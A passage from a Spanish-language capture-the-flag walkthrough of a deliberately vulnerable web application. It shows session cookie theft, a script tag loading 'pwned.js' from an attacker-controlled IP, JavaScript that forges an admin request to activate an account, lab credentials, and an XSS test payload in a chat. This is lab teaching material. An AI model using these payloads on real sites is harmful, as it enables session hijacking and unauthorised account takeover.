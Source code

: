 Haremos <kbd>CTRL</kbd> + <kbd> C </kbd>, después nos dirigimos al apartado **Storage** y ahí es donde sustituimos nuestra **cookie** por lo del usuario al que se la hemos robado.

![[Pasted image 20240731215146.png]]

Si recargamos la página **admin/admin.php**, observamos el siguiente mensaje de error que nos dice que solo puede haber un único **Administrador** logeado al mismo tiempo.

![[Pasted image 20240731215215.png]]

Por lo que seguiremos el mismo procedimiento de antes, pero esta vez compartiremos otro recurso:

```js
<script src="http://192.168.18.107/pwned.js"></script>
```

![[Pasted image 20240731220409.png]]

El archivo **pwned.js** lo que hará será hacer una petición a `http://192.168.18.174/admin/admin.php?id=11&status=active` para intentar activar nuestra cuenta, es decir la cuenta de **Samuel**.

```js
var req = new XMLHttpRequest();
req.open('GET', 'http://192.168.18.174/admin/admin.php?id=11&status=active');
req.send();
```

Observamos que sea activado nuestra cuenta.

![[Pasted image 20240731220210.png]]

Ahora sí, probamos a logearnos con las credenciales de antes **slamotte:fzghn4lw**, y observaremos que nos podemos logear como **Samuel**:

![[Pasted image 20240731232559.png]]

Como el objetivo de esta máquina es recibir el dinero que nos deben por la auditoría que hemos hecho, nos dirigimos a este apartado y le damos a aceptar para enviar la petición para que nos pagen.

![[Pasted image 20240731232728.png]]

Si nos dirigimos a nuestro perfil, observamos que nuestro **Manager** es **Manon Riviere**, y nos da entender que es nuestro **Manager** es quien tiene que aceptar la solicitud para que nos paguen.

![[Pasted image 20240731232918.png]]

Para ello, nos dirigimos al **index.php** en el cual observamos que hay un chat que es posible que sea vulnerable a una **[[XSS]]**, haremos una comprobación igual que antes, introduciendo el siguiente contenido en el cuerpo del mensaje:

```js
<script> alert("XSS") </script>
```

![[Pasted image 20240731233203.png]]
